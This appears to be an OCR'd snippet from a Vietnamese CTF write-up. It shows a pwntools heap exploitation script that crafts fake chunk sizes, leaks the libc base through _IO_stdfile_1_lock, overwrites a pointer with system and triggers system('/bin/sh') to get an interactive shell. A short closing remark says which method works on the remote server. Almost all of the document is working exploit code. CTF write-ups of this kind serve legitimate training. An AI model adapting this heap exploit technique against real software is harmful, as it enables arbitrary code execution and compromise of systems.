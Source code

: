 ```python
        c()
    d(0)
    a(0, p64(0x10)+b'A')
    d(0)
    a(0, b'\x10')
    c()
    c()
    sleep(1)
    a(36, p64(0)+p64(0x21))
    d(10)
    d(1)
    a(36, p64(0)+p64(0x400))
    d(1)
    a(1,p64(0xad8)+p64(0)*2)
    c()
    c() #38
    #a(38,p64(0)+p64(0xfffffffffffffffd)+p64(0xd))
    sleep(1)
    d(6)
    d(5)
    d(4)
    a(4,p64(0xffffffffffffff80)+p64(0)*2)
    a(1,p64(0xffffffffffffffe8))
    sleep(1)
    c()
    c()
    c() #41
    sleep(1)
    a(38,p64(0)+p64(0xfffffffffffffffd)+p64(0xd))
    #a(41,p64(0xffffffffffffef79))
    io.sendline(b"3")
    io.sendline(b"41")
    sleep(1)
    sleep(1)
    pause()
    io.send(p64(0xffffffffffffef79)+p64(0)*2)
    pause()
    io.recv(8)
    libc.address=u64(io.recv(8))-libc.sym._IO_stdfile_1_lock
    log.info(f"libc @ {hex(libc.address)}")
    d(22,False)
    d(21,False)
    d(20,False)
    a(20,p64(0xfffffffffffffd80),False)
    a(1,p64(0x17a8),False)
    c(False)
    c(False)
    c(False)
    a(44,p64(libc.sym.system),False)
    a(23,b"/bin/sh\x00",False)
    d(23,False)
    io.interactive()
pwn()
```
Không biết có phải do cố ý hay không , nhưng chỉ có cách 1 là không cần leak memory là chạy trên remote được.
